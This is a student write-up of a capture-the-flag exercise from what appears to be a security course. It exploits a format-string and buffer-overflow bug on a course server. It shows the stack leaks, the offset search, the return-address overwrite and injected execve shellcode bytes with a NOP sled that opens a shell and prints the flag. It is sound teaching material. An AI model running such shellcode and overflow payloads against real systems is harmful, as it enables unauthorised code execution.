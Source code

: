 # Writeup
s1049877 Jakob Udovic
s1045403 Daan

```shell
$ echo "$(perl -e 'print "0"x103')" | nc hackme.rded.nl 27408
0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000

```

Buffer is 103 Bytes big. With printing 104 Bytes we get weird output at the end:
```shell
$ echo "$(perl -e 'print "0"x104')" | nc hackme.rded.nl 27408
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000�����
```


We can inspect the stack with 34 %p:
```shell
$ ./attack.sh 34
Attackstring is 101 bytes
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025 0x7fffffffebd0 0x7fffffffec60 0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70 0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffecb0 0 0xf8 0x7ffff7ffdd48 0x55555555509e 0x1
```


```shell
echo "$(perl -e 'print "%p "x60'; ./shellcode list 10)" | nc hackme.rded.nl 27408 
* [DEBUG] ./shellcode printed 43 bytes
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebe0 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x9090909020702520 0x3148909090909090 0x2f2fbb48d23148c0 0xc148736c2f6e6962 0x5752e789485308eb 0x50f3bb0e68948 0x1 0x7fffffffeeb0�����
```

Lecture at 45:00
We need the exact size of the buffer, because gets returns the addres which we need to override. Our buffer is of the size 103, we believe.

Here, I sucessfully injected BADC0DE inside stack:
```shell
$ ./attack.sh 25 0xBADC0DE
Attackstring is 79 bytes
0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0xbadc0de207025 0 0 0 0x7fffffffebe0 0x7fffffffec70 0x555555555236 0x7fffffffecd8 0x100000000 0x7fffffffec80 0x55555555524f ���
```

On stack we see:
`0x7fffffffebe0 0x7fffffffec70 0x555555555236`
Last 2 variables are frame pointer and return address.

We want to write our address to the address of the return address (last var):
```shell
$ ./attack.sh 24 0x7fffffffabcd 39
Attackstring is 118 bytes
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7878787878787878 0x7878787878787878 0x7878787878787878 0x7878787878787878 0x7878787878787878 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x7fffffffebd0 0x7fffffffabcd 0x555555555236
```

With the offset of 39 x-s I've managed to override the frame pointer.
With 47 I will manage to override the return address. But I need something that actually works (a real address) that is on the stack.

Ok things are getting weird.
Now I don't know why we are using the x-s before our address. Thom just says on the Leacture it was an very lucky guess. I don't like this. Right now I'm more brute forcing than thinking what is going on...

%: 25
p: 70
 : 20

257010
source: https://onlineutf8tools.com/convert-utf8-to-bytes



I've managed to override the first return address:

```shell
$ ./attack.sh 32 0x7fffffffebd0 15
Attackstring is 118 bytes
xxxxxxxxxxxxxxxx0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7878787878787878 0x7878787878787878 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0 0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70 0x55555555524f 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffecb0 
```

```shell
$ ./attack.sh 32 0x7fffffffebd0 23
Attackstring is 126 bytes
xxxxxxxxxxxxxxxxxxxxxxxx0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x7878787878787878 0x7878787878787878 0x7878787878787878 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebd0 0x2070252070252070 0x7fffffffebd0 0x7fffffffecc8 0x100000000 0x7fffffffec70 0x55555555524f 0x1 0x7ffff7f851f5�����
```
In the first attack I've overriden the frame pointer (no crash) and in the second the return address 0x555555555236.

This is our holy address we want our code to start at:
`0x7fffffffebd0`

Override the address itself:
```shell
$ ./attack.sh 24 0x7fffffffebd0 31
Attackstring is 110 bytes
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7fffffffebd0 0x7fffffffec60 0x555555555236 0x7fffffffecc8 0x100000000 0x7fffffffec70 �����
```


This is frame pointer (1 address before return address) overriden:
```shell
$ ./attack.sh 24 0x7fffffffebd0 39
Attackstring is 118 bytes
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x7fffffffebd0 0x7fffffffebd0 0x555555555236 
```

And I believe with another 8B of offset we override 1st return address:
```shell
$ ./attack.sh 24 0x7fffffffebd0 47
Attackstring is 126 bytes
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebd0�����
```

Now we can see also a lot of "41"s on stack, these are the A-s I've spammed as offset. (We could also do $ ./attack.sh 39 0x7fffffffebd0 2 ?)
The string is 126B long (we need to remember this).


Shell code is 33B long:

```shell
$ ./shellcode list
* [DEBUG] ./shellcode printed 33 bytes
H1�H1�H�//bin/lsH�SH��RWH��
```

For better readability (no NOPs):
```shell
$ ./shellcode list | xxd
* [DEBUG] ./shellcode printed 33 bytes
00000000: 4831 c048 31d2 48bb 2f2f 6269 6e2f 6c73  H1.H1.H.//bin/ls
00000010: 48c1 eb08 5348 89e7 5257 4889 e6b0 3b0f  H...SH..RWH...;.
00000020: 05                                       .
```

And with offset 10 NOPs:
```shell
$ ./shellcode list 10 | xxd* [DEBUG] ./shellcode printed 43 bytes
00000000: 9090 9090 9090 9090 9090 4831 c048 31d2  ..........H1.H1.
00000010: 48bb 2f2f 6269 6e2f 6c73 48c1 eb08 5348  H.//bin/lsH...SH
00000020: 89e7 5257 4889 e6b0 3b0f 05              ..RWH...;..
```
47 is number of our bytes for offset, 33 is the len of shell code so we need 14B of NOP operations
47 - 33 = 14
```shell
$ ./attack.sh 24 0x7fffffffebd0 15
* [DEBUG] ./shellcode printed 48 bytes
Attackstring is 126 bytes
���������������H1�H1�H�//bin/lsH�SH��RWH��;0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x9090909090909090 0x4890909090909090 0x2fbb48d23148c031 0x48736c2f6e69622f 0x52e789485308ebc1 0x50f3bb0e6894857 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebd0�����
FLAG
bin
dev
etc
home
lib
media
mnt
opt
proc
root
run
sbin
src
srv
sys
tmp
usr
var
```


And if my math works, we could transform 15 NOPs in 5 more "%p "-s. So 24 + 15 = 39
```shell
$ ./attack.sh 39 0x7fffffffebd0 0
* [DEBUG] ./shellcode printed 33 bytes
Attackstring is 156 bytes
H1�H1�H�//bin/lsH�SH��RWH��;0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0xbb48d23148c03148 0x736c2f6e69622f2f 0xe789485308ebc148 0xf3bb0e689485752 0x2520702520702505 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebd0 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0xebd0207025207025�����
```

For some reason this doesn't work...

--------------------------------------------------------------------------------


Anyway, off to the shell commmand:

Shell command has the same length as the list command.

```shell
$ ./attack.sh 24 0x7fffffffebd0 15
* [DEBUG] ./shellcode printed 48 bytes
Attackstring is 126 bytes
���������������H1�H1�H�//bin/shH�SH��RWH��;0x7ffff7ffc528 0 0 0x7ffff7ffda40 0 0x9090909090909090 0x4890909090909090 0x2fbb48d23148c031 0x4868732f6e69622f 0x52e789485308ebc1 0x50f3bb0e6894857 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7fffffffebd0�����
whoami
nobody

cat /FLAG     
HiCCTF{ysiqJobnbaFNZyaBHaKkVBw6u4aiXvtAbQSSC6adxNb55LvJ70o6YtXycSvuTSkE}
```

At the end I just transformed my offset of 15 to 5 more "%p "-s and ran it with the command:
`./attack.sh 29 0x7fffffffebd0 0`

Jakob Udovic.
s1049877
